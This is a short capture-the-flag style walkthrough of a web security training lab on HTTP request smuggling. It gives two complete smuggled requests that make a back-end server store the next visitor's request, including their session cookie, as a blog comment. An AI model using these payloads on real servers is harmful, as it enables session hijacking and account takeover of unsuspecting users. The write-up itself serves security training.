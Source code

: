 Title: Exploiting HTTP request smuggling to capture other users' requests
Level: PRACTITIONER
Desc:  This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.
To solve the lab, smuggle a request to the back-end server that causes the next user's request to be stored in the application. Then retrieve the next user's request and use the victim user's cookies to access their account. 

# Walkthrough:
After sending this request: 
```
POST / HTTP/1.1
Host: 0a11000f039b816780f5d59d00710058.web-security-academy.net
Cookie: session=FgVe65lsnGn6ShEiLkmSgiSsiIoBYeKd
Transfer-Encoding: chunked
Content-Length: 341

0

POST /post/comment HTTP/1.1
Host: 0a11000f039b816780f5d59d00710058.web-security-academy.net
Cookie: session=FgVe65lsnGn6ShEiLkmSgiSsiIoBYeKd
Content-Length: 400
Content-Type: application/x-www-form-urlencoded


csrf=5qmS1O0v1YCPNsp6qYLm5gKXTlHxjl4n&postId=6&name=sdfsfd&email=sdf%40d.pl&website=https%3A%2F%2Fwebsite.com&comment=
```

I get comment on post number 6 filled by the data from victim's request.



<img width="967" height="341" alt="image" src="https://github.com/user-attachments/assets/b2ae8d6c-c620-4216-a956-078795e5ed6a" />

This request was better because I've got victim's cookie:
```
POST / HTTP/1.1
Host: 0a11000f039b816780f5d59d00710058.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 276

0

POST /post/comment HTTP/1.1
Cookie: session=FgVe65lsnGn6ShEiLkmSgiSsiIoBYeKd
Content-Length: 900
Content-Type: application/x-www-form-urlencoded


csrf=5qmS1O0v1YCPNsp6qYLm5gKXTlHxjl4n&postId=6&name=sdfsfd&email=sdf%40d.pl&website=https%3A%2F%2Fwebsite.com&comment=
```

<img width="786" height="304" alt="image" src="https://github.com/user-attachments/assets/d3ffd627-a08b-4db8-96fa-406bbc5851cb" />





